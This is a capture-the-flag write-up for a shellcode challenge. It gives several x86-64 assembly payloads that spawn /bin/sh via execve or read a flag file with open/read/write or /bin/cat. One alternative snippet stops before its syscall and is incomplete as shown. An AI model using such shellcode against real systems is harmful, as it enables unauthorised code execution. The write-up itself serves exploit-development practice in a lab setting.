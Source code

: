 # back_to_shell
The goal is to "pop a shell with all the registers at zero" in order to read the flag.

## Context
- The shellcode is read from `stdin` and placed into the `rax` register for execution.
- The binary zeroes out all registers (as observed in GDB).

## Approach
A simple shellcode is needed to invoke a shell using the execve("/bin/sh", NULL, NULL):
```{asm}
mov rdi, rax     ; move the content of rax (shellcode address) into rdi
add rdi, 19      ; adjust the pointer by 19 to point to the string "/bin/sh"
xor rax, rax     ; clear rax
mov rax, 0x3b    ; 0x3b is the syscall number for execve in Linux x86_64
syscall          ; execute the syscall
```

- We add 19 to `rdi` to adjust the pointer, which has been moved by the shellcode itself. 19 is the offset between the start of the shellcode and the string "/bin/sh".
- We trigger a system call using the syscall number in `rax` and the arguments in the appropriate registers. Since the registers are initially zeroed by the binary, both `rsi` and `rdx` (second and third arguments of execve) are already NULL.

## Alternative solution
Another approach is to push the string /bin/sh directly onto the stack, like this:
```{asm}
xor rax, rax                     
mov rax, 0x3b                    
mov rdi, 0x0068732f6e69622f    ; move "reversed" /bin/sh into rdi  
push rdi                       ; pushes /bin/sh onto the stack.
mov rdi, rsp                   ; points rdi to the location of /bin/sh on the stack.
```
- To push it correctly onto the stack, the bytes of "/bin/sh" must be reversed since the system uses little-endian byte ordering.

## Another alternaive solution
Another approach is to makes use of three system calls: open(), read(), and write().
```{asm}
mov rdx, 0x0067616c66      ; reverse the string "flag" and move it into rdx
mov rax, 2                 ; syscall number for open() (2)
push rdx                   ; push "flag" onto the stack
mov rdi, rsp               ; move the pointer to "flag" (on the stack) into rdi
xor rdx, rdx               ; set rdx to 0 (O_RDONLY flag for open)
syscall                    ; call open("flag", O_RDONLY)

mov rdi, rax               ; move the file descriptor returned by open into rdi
xor eax, eax               ; set eax to 0 (syscall number for read)
mov rdx, 70                ; set rdx to 70 (the number of bytes to read)
mov rsi, rsp               ; move the stack pointer to rsi (buffer to store the read data)
syscall                    ; call read(file descriptor, buffer, 70)

mov rax, 1                 ; syscall number for write() (1)
mov rdi, 1                 ; file descriptor 1 (stdout)
syscall                    ; call write(stdout, buffer, 70)
```
For a more detailed explanation refer to the challenge [open_read_write](../open_read_write/)

## A more alternative solution
This alternative shellcode invokes a shell using execve("/bin/cat", "flag", NULL) but constructs the arguments on the stack. 
Here’s how it works:
```{asm}
    xor rdi, rdi                    ; clear rdi (NULL for argv)
    push rdi                        ; push NULL onto the stack (argv)
    mov rdi, 0x7461632f6e69622f     ; move the reversed string "/bin/cat" into rdi
    push rdi                        ; push "/bin/cat" onto the stack
    mov rdi, rsp                    ; move the pointer to "/bin/cat" into rdi
    mov rsi, 0x0067616c66           ; move the reversed string "flag" into rsi
    push rsi                        ; push "flag" onto the stack
    mov rsi, rsp                    ; move the pointer to "flag" into rsi
    xor rdx, rdx                    ; clear rdx (NULL for envp)
    push rdx                        ; push NULL onto the stack (envp)
    push rsi                        ; push pointer to "flag" onto the stack (argv)
    push rdi                        ; push pointer to "/bin/cat" onto the stack
    mov rsi, rsp                    ; move the pointer to the command and arguments into rsi
    mov rax, 0x3b                   ; syscall number for execve
    syscall                         ; execute the syscall
```
- We use `rdi`, `rsi`, and `rdx` registers to hold the pointers to the command, the arguments, and the environment variables, respectively:
    - `rdi`: points to /bin/cat
    - `rsi`: points to the array of arguments (argv), which contains flag and NULL
    - `rdx`: set to NULL, indicating no environment variables (envp).
